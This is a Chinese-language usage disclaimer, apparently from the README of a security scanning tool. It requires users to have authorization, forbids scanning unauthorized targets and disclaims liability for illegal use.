在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描。**

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。
除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

[url-docen]: README_EN.md

